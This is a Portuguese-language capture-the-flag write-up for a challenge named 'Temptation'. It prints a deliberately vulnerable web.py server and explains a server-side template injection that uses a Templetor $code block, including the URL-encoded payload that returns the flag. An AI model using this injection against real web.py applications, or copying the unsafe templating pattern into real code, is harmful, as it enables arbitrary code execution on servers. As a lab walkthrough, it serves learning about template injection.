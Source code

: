 # Temptation

*The attempted attempt to tempt the untempted into a tempting but contemptible scheme was an untempting temptation that exemplified not only contempt but also a preemptive exemption from any redemptive attempts.*

- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*
- *Autor do desafio: [@gehaxelt](https://github.com/gehaxelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>


Ao acessar o site, nos deparamos com um campo de input e a pergunta: "Qual a sua tentação?"

![Página inicial](assets/home.png)


Ao digitar qualquer coisa e enviar, o site nos retorna a resposta: "Too tempted!"

![Muito atentato](assets/tempted.png)

Ao inspecionar o código da página, vemos um comentário

![Código da página inicial renderizada](assets/home-source.png)

Assim podemos acessar o código do backend ao mandar uma requisição para `/?source=1`

```py
import web
from web import form
web.config.debug = False
urls = (
  '/', 'index'
)
app = web.application(urls, locals())
render = web.template.render('templates/')
FLAG = open("/tmp/flag.txt").read()

temptation_Form = form.Form(
    form.Password("temptation", description="What is your temptation?"),
    form.Button("submit", type="submit", description="Submit")
)

class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = temptation_Form()
        return render.index(f)

    def POST(self):
        f = temptation_Form()
        if not f.validates():
            return render.index(f)
        i = web.input()
        temptation = i.temptation
        if 'flag' in temptation.lower():
            return "Too tempted!"
        try:
            temptation = web.template.Template(f"Your temptation is: {temptation}")()
        except Exception as  e:
            return "Too tempted!"
        if str(temptation) == "FLAG":
            return FLAG
        else:
            return "Too tempted!"
application = app.wsgifunc()
if __name__ == "__main__":
    app.run()
```

O código é um servidor `web.py`. Não podemos colocar o texto "flag" na entrada, que é adicionada a um template, de forma insegura
```py
temptation = web.template.Template(f"Your temptation is: {temptation}")()
```

Para obtermos a flag, precisamos que o texto resultado do template seja `"FLAG"`. O sistema de template do `web.py` é chamado [Templetor](https://webpy.org/docs/0.3/templetor), e, como a nossa entrada está sendo passada de forma insegura, podemos aproveitar de funcionalidades do sistema de templates para a execução de código. Nesse caso, podemos utilizar o statement [`$code`](https://webpy.org/docs/0.3/templetor#code) para execução arbitrária de código python. Nossa payload fica dessa maneira:
```py
$code:
    self = 'F''LAG'
```

Para enviar, temos que nos atentar em algumas coisas:
- Python é uma linguagem orientada a identação, então para o bloco funcionar, precisamos de uma quebra de linha após o `$code` e um `\t` de espaçamento antes do `self`
- O statement `$code` só funciona se for o início da linha, então precisamos de uma quebra de linha inicial, pois o início da primeira linha é `"Your temptation is: "`.

Dito isso, teremos basicamente o código a seguir:
```py
\n
$code:\n
\tself = 'F''LAG'
```

Agora temos que fazer um URL encoding para passar como parâmetro. Temos que o `\n` é `%0a` e o `\t` é `%09`, ficando com a seguinte payload
```
%0a$code:%0a%09self%20=%20'F''LAG'
```

Enviando como POST, recebemos a flag
```
ENO{T3M_Pl4T_3S_4r3_S3cUre!!}
```

![Requisição feita pelo BurpSuite, obtendo a flag](assets/flag.png)